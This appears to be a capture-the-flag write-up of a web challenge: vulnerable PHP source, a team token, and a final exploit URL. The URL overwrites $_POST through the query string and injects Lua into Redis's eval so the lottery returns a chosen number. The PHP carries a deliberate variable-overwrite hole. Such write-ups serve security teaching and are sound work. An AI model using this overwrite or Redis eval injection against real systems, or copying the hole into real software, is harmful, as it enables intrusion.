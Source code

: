 # Description
Author: [@orange_8361](https://twitter.com/orange_8361)
```
Win the jackpot!
54.250.242.183
```
# luatic.php
```php
<?php
    /* Author: Orange Tsai(@orange_8361) */
    include "config.php";

    foreach($_REQUEST as $k=>$v) {
        if( strlen($k) > 0 && preg_match('/^(FLAG|MY_|TEST_|GLOBALS)/i',$k)  )
            exit('Shame on you');
    }

    foreach(Array('_GET','_POST') as $request) {
        foreach($$request as $k => $v) ${$k} = str_replace(str_split("[]{}=.'\""), "", $v);
    }

    if (strlen($token) == 0) highlight_file(__FILE__) and exit();
    if (!preg_match('/^[a-f0-9-]{36}$/', $token)) die('Shame on you');

    $guess = (int)$guess;
    if ($guess == 0) die('Shame on you');

    // Check team token
    $status = check_team_redis_status($token);
    if ($status == "Invalid token") die('Invalid token');
    if (strlen($status) == 0 || $status == 'Stopped') die('Start Redis first');

    // Get team redis port
    $port = get_team_redis_port($token);
    if ((int)$port < 1024) die('Try again');
    
    // Connect, we rename insecure commands
    // rename-command CONFIG ""
    // rename-command SCRIPT ""
    // rename-command MODULE ""
    // rename-command SLAVEOF ""
    // rename-command REPLICAOF ""
    // rename-command SET $MY_SET_COMMAND
    $redis = new Redis();
    $redis->connect("127.0.0.1", $port);
    if (!$redis->auth($token)) die('Auth fail');

    // Check availability
    $redis->rawCommand($MY_SET_COMMAND, $TEST_KEY, $TEST_VALUE);
    if ($redis->get($TEST_KEY) !== $TEST_VALUE) die('Something Wrong?');

    // Lottery!
    $LUA_LOTTERY = "math.randomseed(ARGV[1]) for i=0, ARGV[2] do math.random() end return math.random(2^31-1)";
    $seed  = random_int(0, 0xffffffff / 2);
    $count = random_int(5, 10);
    $result = $redis->eval($LUA_LOTTERY, array($seed, $count));

    sleep(3); // Slow down...
    if ((int)$result === $guess)
        die("Congratulations, the flag is $FLAG");
    die(":(");
```
# Team token
```
Token: 7a70261c-3288-441e-8ec0-7a8a84c655f1
```
# Timeline
- Setup Docker container (of course :v)
- Clear all filters/tests/replacements to find the main solution to bypass lua `math.random` function and win the jackpot
- Bypass `preg_match('/^(FLAG|MY_|TEST_|GLOBALS)/i',$k)` test
- Bypass `str_replace(str_split("[]{}=.'\""), "", $v)` replacement
- Won the jackpot

# Final works
- To win the jackpot, we want to reset the `math.random` function by `math.random = function () returns 123 end`
so `math.random()` will return `123`, equal to `guess` we have sent
- To bypass `preg_match('/^(FLAG|MY_|TEST_|GLOBALS)/i',$k)` test, we use `/luatic.php?token=TEAM_TOKEN&guess=123&_POST[MY_SET_COMMAND]=set&_POST[TEST_KEY]=1&_POST[TEST_VALUE]=1`
so `$_POST` variable will be overwritten to `['MY_SET_COMMAND' => 'set', 'TEST_KEY' => '1', 'TEST_VALUE' => '1']`
and will be extracted to php variables
- To bypass `str_replace(str_split("[]{}=.'\""), "", $v)` replacement, we use `for k, v in pairs(math) do rawset(math, k, function() return 123 end) end` to reset `math.random` function
- Final payload: `/luatic.php?token=TEAM_TOKEN&guess=123&_POST[MY_SET_COMMAND]=eval&_POST[TEST_KEY]=for k, v in pairs(math) do rawset(math, k, function() return 123 end) end&_POST[TEST_VALUE]=0`
and got the Flag: `hitcon{Lua^H Red1s 1s m4g1c!!!}`

Please follow for more informations:
- https://github.com/orangetw/My-CTF-Web-Challenges#luatic
- https://redis.io/commands/eval

